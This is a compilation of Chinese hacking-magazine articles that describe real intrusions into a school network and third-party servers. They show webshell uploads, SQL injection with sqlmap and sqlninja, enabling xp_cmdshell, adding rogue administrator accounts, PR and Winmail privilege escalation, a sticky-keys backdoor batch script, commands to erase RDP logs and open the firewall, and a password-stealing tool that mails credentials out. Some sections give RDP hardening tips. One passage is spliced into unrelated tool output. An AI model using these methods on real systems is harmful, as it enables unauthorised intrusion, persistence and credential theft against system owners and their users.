成功进入后台管理页面后，通过浏览和查看功能模块发现信息更新中可以直接上传文件，如图 9 所示。尝试上传一个 PHP 的 Webshell，顺利上传，返回信息管理页面，直接获取 Webshell 地址。通过中国菜刀直接连接一句话木马后门，如图 10 所示，成功获取 Webshell。
图 9  上传 Webshell
图 10  获取 Webshell

### 8. 获取管理员密码

在后台管理页面中，单击“user”获取所有用户列表，如图 11 所示。在该页面中提供了搜索功能，输入“admin”进行搜索，如图 12 所示，成功找到管理员的记录。

单击“manage”下面的编辑链接，进入编辑用户资料页面，如图 13 所示，成功获取管理员的密码“draN6H2w-D”。就该密码强度来说还是挺强大的，10 位密码大小写字母+数字+特殊字符，暴力破解的成功率比较低。
图 11  查看该网站的所有用户
图 12  查找管理员 admin
图 13  获取管理员密码

### 9. 下载数据库和源程序

抱着研究的态度，上传一个功能强大的 Webshell，如图 14 所示，将数据库导出打包，同时通过反弹端口到具有独立 IP 的监听端口，通过反弹的 shell 进行 tar 等操作，将程序等文件打包并下载。
图 14  换大马进行操作

### 总结与思考

虽然本文的渗透相对比较简单，但每一次的渗透都有值得思考和总结的地方。从攻防的角度来看待渗透：

#### 1. 安全加固方面

- （1）禁止目录浏览，目录浏览会暴露很多敏感信息，特别是在上传 Webshell 后，通过浏览文件夹可以很方便地获取 Webshell。
- （2）上传严格限制文件后缀以及内容，禁止上传危险后缀文件，采取仅允许策略，即仅允许几种类型的文件上传，其他一概不允许。文件上传后自动进行命名，生成允许的后缀名称。
- （3）后台登录时进行严格验证，过滤单引号等危险输入。
- （4）对用户的密码等敏感信息进行加密，且密码设置具有一定强度。入侵者即使通过 SQL 注入获取加密密码后，但该密码为密文也会因为无法破解而放弃。

#### 2. 渗透方面

- （1）管理员登录密码绕过验证成功率高。密码绕过验证不仅仅本文中提到的“' or '='”，还有很多其他输入，在渗透时可根据需要进行测试。如果在测试时能够获取列名等信息，则将有助于后面的渗透，可以将获取的列名加入到 Havij 等 SQL 注入工具的表和列名中。
- （2）网站渗透测试可以从多方面进行。可以进行 SQL 注入扫描、网站文件目录扫描、Google 黑客技术应用、密码验证绕过登录、密码暴力破解等。在某一方面取得突破时，则很快就会实现获取 Webshell 的目标了。
- （3）每一次渗透结束后都应该进行总结和资料整理。以前渗透站的网站很多，渗透完毕后就放到一边了，没有对整个过程进行回顾，没有对资料进行整理。其实在获取 Webshell 后，可以打包下载数据库、下载源程序，寻找网站中的后门，将用户密码和用户名收入到字典库中，将网站的目录、后台地址、后台文件名称和脚本文件名称等加入到扫描字典中。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无

关键词：3389，攻击，远程

## 3389 攻击与防范实用技巧

图/文 Simeon
### 远程终端攻击防范实用技巧

### 1. 实用技巧之一——修改默认端口

默认状态下远程桌面使用的端口一般为“3389”，如果不及时将这个端口号码更改掉的话，那么许多别有用心的黑客可能会利用这个端口，来远程控制和入侵本地工作站，以便窃取保存在本地工作站中的各类隐私信息。目前还有单独针对远程终端攻击的软件，如果你设置的密码碰巧在他的攻击字典中，那么很不幸地告诉你，你的计算机将被攻陷……因此在系统管理中修改默认端口就非常有必要了。修改默认端口 3389 为其他任意未使用的端口即可。

- （1）图形界面修改

首先以特权身份（管理员）登录进本地工作站或者服务器系统，用单击系统桌面中的“开始”→“运行”命令，从弹出的系统运行框中，输入字符串命令“regedit”，单击“确定”按钮后，打开本地工作站的系统注册表编辑界面；在该编辑界面的左侧显示区域，用鼠标展开 HKEY_LOCAL_MACHINE 注册表分支，从其后弹出的分支列表中依次选中 SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp 子键，在 tcp 子键所对应的右侧显示区域中会看到名为 PortNumber 的子键（如图 1 所示），该子键用于定义远程桌面端口号码，默认值为十六进制“0X00000D3D”。双击该键值即可修改，例：设置为“8888”。
图 1  通过注册表查看 3389 的端口信息
完成数值修改操作后，我们再将鼠标定位于注册表分支 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp`，在 RDP-Tcp 子键所对应的右侧显示区域中，我们同样会看到一个名为 PortNumber 的子键，把该子键的数值也要一并修改过来，例如这里我们也要将它的数值修改成“8888”。至此 3389 的端口修改就完成了，此时使用远程终端的格式变更为“server:8888”，例如 IP 地址为 192.168.1.8 的远程终端使用方法为“192.168.1.8:8888”，也即在远程终端连接的地址中输入“192.168.1.8:8888”进行连接。
- （2）使用批处理修改终端端口

使用批处理修改默认端口需要事先计算出远程终端端口号的十六进制值，例如我们修改成“8888”，其对应的端口十六进制值为“0X22B8”，使用下面命令即可完成端口的修改，将 3389 端口修改为 8888 端口。

```bash
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v PortNumber /t REG_DWORD /d 0X22B8 /f
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0X22B8 /f
```

还可以通过以下命令来显示 3389 的更多详细信息，显示结果如图 5 所示。

```bash
regedit /e tsp.reg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp"
type tsp.reg


```
### 2. 实用技巧之二——查询端口

查询端口的操作方式都差不多，主要通过查询注册表和下面介绍的两种查询终端端口（适用于 XP 专业版、2000 服务器版与 2003 操作系统）。

- （1）通过查询注册表

```bash
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp /v PortNumber
```

查询结果如图 3 所示，在查询结果中显示的是“PortNumber  REG_DWORD  0xd3d”，端口值为十六进制编码，0xd3d 表示端口号码为 3389，可以将这个值复制到科学计算器中进行十六进制和十进制之间的换算即可（如图 4 所示），0xd3d=13×16×16+3×16+13×1=3389。

- （2）通过 VBS 脚本命令来查询

使用 VBS 脚本命令来查询，一般也使用批处理来执行更方便。在有些情况下，系统禁止执行 VBS 脚本（删除 Windows Script Host 组件）。其代码如下，执行效果如图 6 所示。

```vbscript
Echo Dim ReadComputerName >>port.vbs
Echo Set ReadComputerName=WScript.CreateObject("WScript.Shell") >>port.vbs
Echo Dim TSName,TSRegPath >>port.vbs
Echo TSRegPath="HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\PortNumber" >>port.vbs
Echo TSName=ReadComputerName.RegRead(TSRegPath) >>port.vbs
Echo WScript.Echo("TermService port is:"&TSName) >>port.vbs
Cscript port.vbs
```

上面所对应的 VBS 脚本为：

```vbscript
Dim ReadComputerName
Set ReadComputerName=WScript.CreateObject("WScript.Shell")
Dim TSName,TSRegPath
TSRegPath="HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\PortNumber"
TSName=ReadComputerName.RegRead(TSRegPath)
WScript.Echo("TermService port is:"&TSName)


```

将以上代码保存为 `ports.vbs`，然后在命令提示符或者 telnet 窗口执行“Cscript port.vbs”即可。
图 6  使用 VBS 脚本查询 3389 端口

### 3. 实用技巧之三——控制终端用户的操作界面

根据我的经验，在众多的远程控制、远程管理软件中，微软的终端服务是速度最快的，不过终端服务也有一个很不人性化的地方，就是在默认情况下，我们是看不到终端用户的操作界面的，这在某些场合很不方便，比如你想在进行远程操作的同时也让对方能够看到你的操作界面，但终端服务下他是看不到的。其实，可以通过一些手段让对方看到远程操作。

- 1. A 用户先登录远程终端服务器，然后进入命令行窗口。
- 2. A 用户获取当前运行的会话 ID。运行 `query session` 命令，如图 7 所示，找出 A 会话的会话 ID，这里是 1，当前会话前有一个 `>` 标志，Console 会话表示控制台。
- 3. 运行 `shadow 会话ID号`。由于上面的 A 会话 ID 是 1，所以要跟 B 用户进行远程控制协商，这里命令就是 `shadow 2`，如图 8 所示。在 A 中会给出一段提示，冻结 A 用户当前的连接。记住不能自己跟自己 shadow。
- 4. 此时 B 的终端服务界面会出现一个远程控制请求的对话框，如图 9 所示。如果 B 同意了请求，那么就可以远程控制和查看 A 的会话了，此时 A 仍能随意进行操作，如图 10 所示。A 用户在远程终端所有操作，都会在 B 用户的远程终端上面显示。如果要退出，则执行“Logoff”命令即可。
图 7  获取当前登录会话 ID
图 8  跟 B 用户进行远程控制协商
图 9  同意远程控制会话请求
图 10  A 用户与 B 用户操作同步

### 4. 实用技巧之四——远程关闭终端服务器

如果要远程关掉终端服务器，可能大家通常都是直接使用开始菜单中的关机功能，但这种方式在关机时不会向终端用户发送消息，所以大家可以使用“tsshutdn”命令。比如我要在 15 秒内关掉终端服务器，就可以直接使用下面的命令：

```bash
tsshutdn 15 /powerdown


```

要取消关机可以按 CTRL+C 组合键。

### 5. 实用技巧之五——查看所有终端服务器客户端运行的程序

有时服务器管理员可能想了解现在到底有多少用户在登录终端服务器，这些用户到底在运行些什么程序，这时可以使用 Query 系列命令，有“query process”“query session”“query user”等，分别是查看进程、会话和用户的。另外要向客户端发送消息，可以使用 msg 命令。

### 6. 实用技巧之六——重启计算机

在远程终端上面执行“iisreset /reboot /timeout:00”命令后系统会自动进行重启，这在入侵过程非常好用，在韩文、阿拉伯等看不懂文字的情况下执行该命令不会误操作将计算机关机。

### 7. 实用技巧之七——灵活应用快捷键

熟练运用远程终端的快捷键，不但能够显示出高超的基本功，还能在实际应用过程发挥作用，因为时间就是金钱，在数秒时间就搞定一切，那是一种境界和修养。下面就是远程终端的一些快捷键。

- CTRL+ALT+END 调出“任务管理器”和打开“Windows 锁定”对话框。
- CTRL+ALT+BREAK 这个就是切换全屏显示，在窗口和全屏显示之间切换客户端。
- ALT+PAGE UP 从左向右在程序之间切换。
- ALT+PAGE DOWN 从右向左在程序之间切换。
- ALT+INSERT 按启动顺序来回切换程序。
- ALT+HOME 显示“开始”菜单。
- ALT+DELETE 显示窗口的弹出式菜单。
- CTRL+ALT+减号（-）将客户端活动窗口的快照放在“终端”服务器的剪贴板上（与在本地计算机上按下 ALT+PrintScrn 键时的功能相同）。
- CTRL+ALT+加号（+）将整个客户端窗口区域的快照放在“终端”服务器的剪贴板上（与在本地计算机上按下 PrintScrn 键时的功能相同）。

### 8. 实用技巧之八——限制指定用户可登录终端

为了保证服务器的安全，没必要让服务器所有用户都允许登录，我们可以指定一个管理员账号可以登录。这就是限定某一个用户才能登录远程终端，通俗地讲就是将允许登录的用户加入到远程桌面登录用户组即可。具体操作方法为：单击“管理工具”-“终端服务配置”-“连接”，再选择右边的“RDP-TCP”的属性，找到“权限”选项，删除 administrators 组，然后再添加我们允许的这个用户，其他一律不允许登录，如图 11 所示。这就是在很多情况下，即使你提权成功并且添加自己为管理员用户，即使密码输入正确，也不能登录 3389。
图 11  设置远程桌面管理权限

### 9. 实用技巧之九——我的 3389 我做主

“终端服务”默认没有日志记录，需要手动设置。远程终端启用日志审核后就能够了解我的 3389：谁什么时候登录，什么时候注销的。具体开启方法如下：单击“管理工具”-“终端服务配置”-“连接”，再选择右边的“RDP-TCP”的属性，找到“权限”选项，然后单击其下面的“高级”按钮，进入“RDP-TCP 高级安全设置”，在“RDP-TCP 高级安全设置”中单击“审核”，然后单击“添加”按钮，在选择用户和组中单击……“高级”→“立即查找”，在搜索结果中找到“everyone”用户，将其添加到审核项目中，如图12所示。然后选择需要记录的事件。一般审核以下几个事件：

- 登录（成功、失败）
- 连接（成功）
- 注销（成功）
- 断开（成功）
图12  配置远程终端日志审核

## 10. 实用技巧之十一——记录登录3389的IP地址和时间

关于这个东西，首先是在虚拟机上看到的。在一些大型虚拟机上，当一登录系统，会突然闪出一个DOS窗口，又突然消失了。后面通过分析，知道这是管理员在记录谁登录过自己的操作系统。当时觉得很复杂，其实简单，具体操作步骤如下。

- 1. 创建记录3389登录时间的批处理文件和日志文件  
  - `3389.bat`：用户登录时运行的脚本文件。  
  - `3389log.txt`：记录3389登录的IP地址和时间的txt文件。

```bat
date /t >>3389log.txt
time /t >>3389log.txt
netstat -n -p tcp | find ":3389" >>3389log.txt
start Explorer


```

解释：第一行和第二行代码用于记录用户登录的时间。第三行代码记录终端用户的IP地址，“netstat”用于显示当前网络连接状况，“-n”用于显示IP和端口，“-p tcp”显示TCP协议，管道符号“|”会将“netstat”命令的结果输出给“find”命令，再从输出结果中查找包含“3389”的行，最后把这个结果重定向到日志文件“3389log.txt”，最后一行为启动Explorer的命令。

- 2. 配置“终端服务器配置”

首先进入系统管理工具中的“终端服务器配置”，进入到默认RDP-Tcp属性中，然后切换到“环境”页下，启用“用户登录时启用下列程序”，在程序路径和文件名处填写“c:\rdp\3389.bat”；并在起始处填写“c:\rdp”，如图13所示。需要特别注意的是，这两个选项一定要正确，3389.bat文件位于C盘rdp文件夹下，而起始位置是指3389.bat前面的路径，否则将出现3389登录错误，导致用户无法正常登录3389；一个好的解决方法是登录3389进行配置，但不退出，然后在本地另起一个3389登录，进行测试。网上还流传有其他类似的脚本，其原理大同小异，无外乎加载脚本的地方不一样。
图13  配置“终端服务器配置”

### 远程终端攻击实用技巧

- 1. 清除3389的登录记录  
  只要用一条系统自带的命令：`reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client" /f` 即可。
- 2. 取消xp&2003系统防火墙对终端服务3389端口的限制及IP连接的限制  
  只要用如下的操作：`REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 3389:TCP:*:Enabled:@xpsp2res.dll,-22009 /f` 即可。
- 3. 去掉限制登录  
  终端超出最大连接数时，可用下面的命令来连接：`mstsc /v:ip:3389 /console`。

```bat
echo.& pause
exit
```

## 3. 永不查杀的3389后门

永不查杀的3389后门的原理就是利用shift后门，连敲5次shift键即可直接进入服务器。将以下代码复制到服务器上，通过DOS命令提示符窗口执行即可。

```bat
@echo off
copy c:\windows\explorer.exe c:\windows\system32\sethc.exe
copy c:\windows\system32\sethc.exe c:\windows\system32\dllcache\sethc.exe
attrib c:\windows\system32\sethc.exe -h
attrib c:\windows\system32\dllcache\sethc.exe +h


```

#### 4. WinlogonHack

笔者曾经单独写过WinlogonHack的文章，其原理很简单，就是记录管理员登录的密码。当有3389登上时，自动加载DLL，并且记录登录密码，保存为boot.dat文件。最新的一些版本已经可以将记录的密码发送到指定的邮箱，只要服务器连接网络，那么肉鸡就永远不会丢失。

前置知识：无

关键词：VPN，渗透，网络

## 为VPN而渗透学校校园网
图/文  乱雪

某次去机房突然看到挂在墙上的网络拓扑图，从而了解整个学院的网络分布情况。正好泄露了网络拓扑结果，于是在了解拓扑结构的情况下，展开了一次渗透测试。在此说一句题外话，不知为何现在的学校喜欢把网络拓扑图详细地贴在墙上，女友学校的网络拓扑图还竟然公开在学校的网站上，实在无语。我简略绘制本校的拓扑结构，如图1所示。

DHCP、DNS、Web、FTP服务器，它们都位于10.10.8.0网段。

我们宿舍每个人的书桌下都有网线插孔，从拓扑图中就可以看出，虽然没有开通上网，只要网线插上去，同样可以跨网段访问，也就是对Web服务器可以访问。经过扫描，还有不少内部网站，比如在线电影之类的。

我的想法是拿下某一台机器的权限，然后开个VPN来上网。为了长期使用，我选择了对服务器下手，先选择了Web服务器。顺便说一下，我主要用BackTrack5作为渗透环境，所使用的大部分工具均来源于BackTrack5中。
图1

整个学院内部用10.10.0.0网段的IP地址，学院有Web服务器是在10.10.8.0这个网段的。用Nmap对整个网段进行扫描：

```bash
root@bt:~# nmap -sS -p 80 10.10.8.1-254 --open


```

其中，`-p` 参数代表只扫描指定端口，参数后跟欲扫描的端口号；`--open` 表示结果只显示开放了80端口的主机；`10.10.8.1-254` 是IP地址的范围，指代10.10.8.1~10.10.8.254，因为255是广播地址，所以只用扫到254即可。只用了3秒多，就扫描完了整个网段，结果如图2所示。
图2

我选择了10.10.8.15这个目标站，因为它是ASP.NET架构的，如果有注入，较容易提权（后面事实证明的确非常好提权）。打开以后竟然是一个旅游方面的网站，记得在学校某内部网站找到这个网站的链接，标明是网络协会的，可见大学学生的东西有多杂。

随便点开了一则新闻的页面，然后用sqlmap扫描：

```bash
sqlmap.py -u:
"http://10.10.8.51/Web/News/Opiniondetail.aspx?id=54"
```

很快就返回了如下文字：

```text
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:

---
Place: GET
Parameter: id
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: id=53' AND 9442=9442 AND 'fVBu'='fVBu
---
web server operating system: Windows 2003
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 4.0.30128
back-end DBMS: Microsoft SQL Server 2005
[*] shutting down at: 13:14:52
```

看来的确有注入，详细信息都在上面了，操作系统是Windows 2003，IIS 6.0以及数据库是MSSQL 2005。立即看看数据库当前的用户名，提交如下命令：

```bash
./sqlmap.py -u
"http://10.10.8.51/Web/News/Opiniondetail.aspx?id=54"
--current-user
```

以下是从sqlmap返回的一长串信息中摘下的：

```text
[13:35:28] [INFO] fetching current user
[13:35:28] [INFO] read from file '/pentest/database/sqlmap/output/10.10.8.51/session': sa
current user: 'sa'
```

显示了当前用户名是sa，如果真的是sa权限，那么已经成功了一半以上。提交以下命令查看当前用户的权限：

```bash
./sqlmap.py -u
"http://10.10.8.51/Web/News/Opiniondetail.aspx?id=54"
--privileges
```

摘下的关键返回信息如下：

```text
database management system users privileges:
[*] nx
[*] sa (administrator)
```

果然是SA权限，赶紧换成Sqlninja。BackTrack5中的Sqlninja是新版本，新版本的Sqlninja已经不和以前的配置方法一样了，需要先建一个配置文件。在终端中输入 `touch conf.conf` 建立一个配置文件，针对此次攻击，我的配置文件如下：

```text
--httprequest_start--
GET http://10.10.8.51/Web/News/Opiniondetail.aspx?id=53/**/_SQL2INJECT__ HTTP/1.1
Host: 10.10.8.51
User-Agent: Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.7.13) Gecko/20060418 Firefox/1.0.8
Connection: close
--httprequest_end--
```

Sqlninja的配置文件格式用了标准的HTTP请求，以`--httprequest_start--`和`--httprequest_end--`作为开始和结束，GET中URL后面的`__SQL2INJECT__`会被Sqlninja自动替换成相应的注入语句。保存文件。由于SQL Server 2005默认是禁用了xp_cmdshell的，所以首先需要恢复xp_cmdshell存储过程，输入命令：

```bash
root@bt:/pentest/database/sqlninja# ./sqlninja -m x -f conf.conf -d 1
```

`-m`参数为攻击模式，`x`参数为恢复xp_cmdshell存储过程；`-f`用来指定配置文件；`-d`后跟1可以注入提交的SQL语句，方便学习，回显如下：

```text
->>+++++++++++++++SQL
Command++++++++++++++
if not(substring((select @@version),25,1) <> 5) waitfor delay '0:0:5';
------------------------------------
[+] Target seems a SQL Server 2005
1: 2000
2: 2005
f: fingerprint and act accordingly
> 2
[+] Trying to reactivate xp_cmdshell using sp_configure...
+++++++++++++++SQL Command++++++++++++++
exec master..sp_configure 'show advanced options',1;reconfigure;exec master..sp_configure 'xp_cmdshell',1;reconfigure
------------------------------------
[+] Checking whether xp_cmdshell is available
```

```text
+++++++SQL
Command+++++++++++++
exec master..xp_cmdshell 'ping -n 5 127.0.0.1';
-------------------------
[+] Yes ! Now xp_cmdshell is available
```

成功恢复xp_cmdshell了，接着开始执行系统命令。

在终端输入：

```bash
./sqlninja -m c -f conf.conf
```

`c`参数用来执行xp_cmdshell。

```text
root@bt:/pentest/database/sqlninja# ./sqlninja -m c -f conf.conf
Sqlninja rel. 0.2.6-rc2
Copyright (C) 2006-2011 icssuffer
<r00t@northernfortress.net>
[+] Parsing conf.conf...
[+] Target is: 10.10.8.51:80
[+] Starting blind command mode. Use "exit" to be dropped back to your shell.
>


相比早期，中国菜刀真是一句话后门操作的福音，如图4所示，在地址中输入一句话后门地址“http://www.kuqielin.com/ywebeditor/2.asp;.jpg”，密码为“cmd”，单击添加即可将该后门地址添加到中国菜刀管理器中。在中国菜刀中单击刚才添加的一句话后门地址，如果连接没有问题，则可以直接对该网站文件进行操作。


```

这时光标在“>”后面闪动，用于输入命令。我分别执行 `net user lu4nx 123456 /add`、`net localgroup administrators lu4nx /add` 来添加一个名为lu4nx的管理员。

由于BackTrack5中的mstsc不太好用，我就在Windows里用mstsc登录了。于是顺便在主机上建了一个VPN。

登录远程桌面后，我用wce.exe抓出Administrator的hash，然后用Ophcrack挂上7G的彩虹表跑出了密码，接着在“本地用户和组”中，右击Administrator，选择属性，在“拨入”选项卡中，将“远程访问权限（拨入或VPN）”改成“允许访问”，如图3所示；

然后在“控制面板”——“路由和远程访问”，在相应的计算机名中点击右键，选择“配置并启用路由和远程访问”，弹出的向导中选择“自定义配置”，勾选“VPN访问”和“NAT和基本防火墙”，完成向导后启用服务即可，如图3所示。只要保证Server、Routing and Remote Access、Remote Registry和Workstation四个服务开启了，便可关闭Windows防火墙。
然后在本地建立一个VPN连接，填入IP、用户名和密码即可，如图4所示。
本文主要综合使用了一下BackTrack5中的工具，本文纯属学习，请勿用于其他用途。

前置知识：无  
关键词：渗透，提权，服务器

## Pr 提权渗透国外某高速服务器
图/文  Simeon

有些渗透是一种偶然，但偶然的渗透却有着被渗透到的必然。本次渗透源于素材收集，通过本次渗透有了下面的一些收获。

- 1. 扫描工具不是万能的。扫描工具的扫描结果具有参考价值，通过扫描出来的信息，借助经验，可以进行进一步的测试。
- 2. hzhost管理系统的渗透方法：通过Asp.net的Webshell查看进程来获取hzhost的物理路径，如果能够访问hzhost的物理路径，则可以下载其管理所用的数据库表site.mdb。在site.mdb数据库中会保存root和sc用户的密码，掌握了MySQL和MSSQL的管理员密码后，可以尝试数据库提权，从而获得管理员权限。在hzhost有access数据库，也有采用MSSQL数据库。

下面是具体的渗透过程。

### 1. 分析AWS扫描结果

使用的扫描工具为AWS，如图1所示，扫描结束后给出了265个警告信息。虽然出现高危的跨站漏洞较多，但对于普通安全人员来说，利用XSS还有一些难度。然后对于扫描结果中的源代码暴露、文件路径、Web编辑器、特殊文件名称等要做详细的分析和实际测试，通过这些漏洞很有可能拿到Webshell权限。
### 2. 获取直接文件上传地址

通过查看AWS扫描结果，发现该网站存在直接文件上传地址，在AWS中选中该页面直接进行浏览测试，如图2所示，能够正常访问，且未做安全验证测试。

### 3. 直接上传网页木马测试

通过测试发现上传页面能够正常访问，则可以按照以下方法来上传网页木马。

- 1. 直接上传网页木马，网页木马可以是大马，也可以是小马，还可以是IIS文件命名漏洞的图片文件。
- 2. 尝试文件编辑器漏洞来直接上传文件。
- 3. 将文件保存到本地，修改提交地址和代码来上传文件。
- 4. nc抓包、提交等方法来上传网页木马。
在本例中利用的是第一种方法，通过IIS命令规则漏洞来上传，成功上传一句话后门文件“2.asp;.jpg”，如图3所示，上传成功后还提示具体的文件上传地址。
### 4. 创建并操作一句话后门
MySQL 的所有数据库用户名和密码等信息。MySQL 的 user.MYD 文件中的用户密码可以用 cmd5 网站查询破解。如果破解了 root 用户密码，对于 Windows 系统可以尝试 UDF 提权，如图 8 所示。

### 5. 上传大马进行管理

在中国菜刀中将网页大马上传到网站中，如图 6 所示，通过该页面进行文件上传、删除、修改和下载等管理操作。

### 6. 查看网站服务器文件

通过网页大马查看目标网站所在服务器上的文件，如图 7 所示，获取了该网站所在服务器的管理平台的数据库，将该数据库下载到本地。

在该文件夹下还存在 MySQL 数据库，到 Data 目录下将 user.MYD 文件下载到本地，该文件保存了 MySQL 的所有数据库用户名和密码等信息。

### 7. 查询目标网站所在服务器下的所有域名

通过网站地址“http://www.yougetsignal.com/tools/web-sites-on-web-server/”来查询该 IP 地址下的所有域名，如图 9 所示，获取了 33 个网站域名。

### 8. 分析 site.mdb 数据库

由于目标网站使用的管理系统为华众管理系统（HZHOST），通过下载该安装文件下的 site.mdb，可得到 site、sqlsetting 和 vhostsetting 三个表。其中 site 表记录的是站点名称、FTP 用户名称、FTP 密码、站点所在目录等信息，如图 10 所示。在该表中可以直接获取 FTP 用户名和密码、主机所能支持的语言类型（asp、php 和 net2）等信息。sqlsetting 表保存的是 sa 和 root 用户的密码，如图 11 所示。vhostsetting 表保存虚拟主机的管理信息。

### 9. 上传 PHP Webshell

通过 site.mdb 数据库找出支持 php 编程语言的虚拟主机站点，通过 FTP 直接连接该站点，输入从 site 表中获取的网站用户名和相对应的密码，顺利登录该 FTP 服务器，如图 12 所示，执行“put control.php”将本地存在的 control.php 网页木马上传到网站。然后通过 IE 浏览器访问该 Webshell 地址，如图 13 所示，上传的 Webshell 成功运行。

### 10. PR 提权

将 PR 提权工具上传到网站服务器上，如图 14 所示，在 CmdPath 中输入“C:\RECYCLER\pr.exe”，在 Argument 中输入“net user temp temp2005 /add”，将 temp 用户添加到系统中。然后再在 Argument 中输入“net localgroup administrators temp /add”，将 temp 用户添加到管理员组中，如图 15 所示。PR 命令执行成功后会给出一些提示信息。最后执行“net localgroup administrators”查看管理员组的情况，如图 16 所示，temp 用户已经成功添加到系统管理员组中。

### 11. 获取远程终端端口

使用 NMAP 对该服务器 IP 进行所有 TCP 端口扫描，如图 17 所示，成功获取该服务器的远程终端端口。

### 12. 登录远程终端

通过远程终端客户端程序 mstsc.exe 直接登录该服务器，输入刚才添加的用户名和密码，顺利登录服务器，如图 18 所示。

图 10 获取网站管理信息  
图 11 获取网站 sa 和 root 用户密码  
图 12 通过 FTP 上传 Webshell  
图 13 测试上传的 Webshell  
图 14 添加 temp 用户到系统  
图 15 将 temp 用户添加到管理员组中  
图 16 temp 用户已经为管理员  
图 17 扫描服务器端口  
图 18 登录远程终端

- 前置知识：无
- 关键词：Windows 2008，提权

## Windows 2008 中 Magic Winmail Server 提权

图/文 Simeon

Magic Winmail Server 是安全易用全功能的邮件服务器软件，不仅支持 SMTP/POP3/IMAP/Webmail/LDAP（公共地址簿）/多域/发信认证/反垃圾邮件/邮件过滤/邮件组/公共邮件夹等标准邮件功能；还有提供 RBL/SPF/Spam Assassin/邮件签核/邮件杀毒/邮件监控/支持 IIS、Apache/网络硬盘及共享/短信提醒/邮件备份/SSL（TLS）安全传输协议/邮件网关/动态域名支持/远程管理/Web 管理/独立域管理员/在线注册/二次开发接口等特色功能。它既可以作为互联网邮件服务器、局域网邮件服务器，也可以作为 ADSL 宽带、FTTB、有线通（CableModem）等接入方式的邮件服务器和邮件网关。

Magic Winmail Server 程序安装为系统服务，程序一般是在 Administrator 权限下运行的，而服务程序 MailServer.exe 是在 system 权限下运行的，因此当有 Webshell 时，就可以通过这个漏洞来提升权限了。Magic Winmail Server 提供的 Webmail 是通过 PHP 脚本来实现管理的，下面就针对该邮件服务器的提权和防范进行探讨。

### 1. 获取 Winmail 目录地址

通过 Webshell 找到了 Winmail 的物理地址“G:/Winmail/server/webmail/www/”，如图 1 所示，寻找 Winmail 有几种手段：

- 如果获取的 Webshell 是 asp.net，则可以直接查看进程或者服务来获取 Winmail 的物理地址；如果 IISSpy 能用，也可以获取 Winmail 的网站真实路径。
- 针对目标对象进行 mail 地址测试，一般提供 Winmail 的地址多为 `mail.somesite.com` 或者 `webmail.somesite.com`。

### 2. 执行 whoami 命令

在 Webshell 中进入“Execute Command”页面，在 Use 中选择“phpfunc”，Command 中输入“whoami”命令，查看 Webshell 是什么权限，如图 2 所示，显示为“nt authority\system”权限。

### 3. 添加用户到管理员组

既然是系统权限，则可以直接执行添加命令。由于系统是 Windows 2008 Server，前几次添加用户老是提示不成功，后面分析原因发现 Windows 2008 Server 系统用户密码对强度有要求，必须具备一定复杂度才能添加成功，如图 3 所示，执行“net user SQLdebugger W$P%emo2005!* /add”命令成功完成。后面分别执行“net localgroup administrators SQLdebugger /add”和“net localgroup administrators”命令，将 SQLdebugger 用户加入到管理员组中以及查看管理员用户组中的用户，执行效果如图 4 和图 5 所示。

### 4. 设置并登录远程终端服务器

单击“开始”-“运行”，在运行中输入“mstsc”命令，打开远程桌面连接窗口，如图 6 所示。在计算机中输入目标服务器的 IP 地址或者域名，在用户名中输入“SQLdebugger”，密码中输入刚才添加的密码，选中“保存密码”复选框，可以在下次连接时不用再次输入密码，当然也可以将此次配置另存为一个 3389 的文件。最后单击“连接”进行登录测试，如图 7 所示，成功登录该服务器。

图 4 添加用户到管理员组中  
图 5 查看系统管理员组  
图 6 设置远程终端桌面  
图 7 进入 Windows 2008 Server 远程桌面

### 5. Winmail 邮箱用户与口令

Winmail 的配置文件保存在“G:/Winmail/server/”目录，也即安装目录下的 Server 子目录，“userauth.cfg”文件为邮箱用户口令配置，邮箱登录用户名为 `<name></name>` 之间的字符串，如图 8 所示，本例中的用户为 postmaster，用户密码为 md5 后的字符串“8ed44440b3e4077a782ff5cc5348e366”。Winmail 还有其他加密方式，如果 password 之间为 md5，则表示为 md5 加密，否则为相应的加密方式。该密码可以通过 cmd5 等网站进行查询破解，如图 9 所示，由于该密码位数较长，属于收费类型。

```xml
<database>
  <user>
    <item>
      <name>postmaster</name>
      <domains></domains>
      <password>8ed44440b3e4077a782ff5cc5348e366</password>
      <fullName>postmaster</fullName>
      ...
    </item>
  </user>
</database>
```

图 8 Winmail 用户配置文件  
图 9 获取 Winmail 的 md5 密码

### 6. 进入邮箱

使用破解的密码和用户名进行登录，如图 10 所示，成功进入该邮件系统。通过验证知道 Winmail PHP 版本的邮件用户密码多采用 cmd5 加密，通过分析其配置文件 userauth.cfg，可以获取该 mail 邮件服务器的所有用户名和密码。

### 7. Winmail 服务器防范

- （1）降低 Winmail 的权限。
- （2）设置 Winmail Web 目录为只读，这样即使入侵者获取了 Webshell，也因为没有写入权限而无法执行脚本命令。

前置知识：无  
关键词：DZ，0day，Webshell

## 使用 Discuz!NT3.5.2 文件编辑 0day 获取 Webshell

图/文 Simcon

